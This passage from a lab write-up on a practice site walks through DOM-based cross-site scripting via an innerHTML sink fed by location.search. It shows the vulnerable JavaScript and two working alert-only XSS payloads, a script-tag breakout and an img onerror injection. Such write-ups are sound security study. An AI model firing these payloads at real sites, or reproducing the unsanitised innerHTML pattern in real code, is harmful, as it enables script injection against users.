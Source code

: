 ![](https://i.imgur.com/NCJUJXj.png)
### Exp
Payload: `"><script>alert(123)</script>"`
:::spoiler Success Screenshot
![](https://i.imgur.com/X801Wgo.png)
![](https://i.imgur.com/RIGDA9b.png)
:::


---
## Lab: DOM XSS in `innerHTML` sink using source `location.search`
* Description: This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`. 
* Goal:  To solve this lab, perform a cross-site scripting attack that calls the alert function. 
### Recon
:::spoiler Source Code
```javascript!
...
<section class=blog-header>
    <h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
    <script>
        function doSearchQuery(query) {
            document.getElementById('searchMessage').innerHTML = query;
        }
        var query = (new URLSearchParams(window.location.search)).get('search');
        if(query) {
            doSearchQuery(query);
        }
    </script>
    <hr>
</section>
...
```
:::
1. Input `abc` and observe page source
![](https://i.imgur.com/sc3QWXN.png)

2. Input `<script>alert(123)</script>` and observe page source
![](https://i.imgur.com/ZW6WvOn.png)
Nothing prompt appeared though it's included in `span` tag

3. So, how about using `img` tag to achieve XSS?
### Exp
Payload: `<img src=1 onerror=alert(1)>`
![](https://i.imgur.com/FonVo3L.png)
It's rendered successfully.
:::spoiler Success Screenshot
![](https://i.imgur.com/fcXrlDu.png)
:::
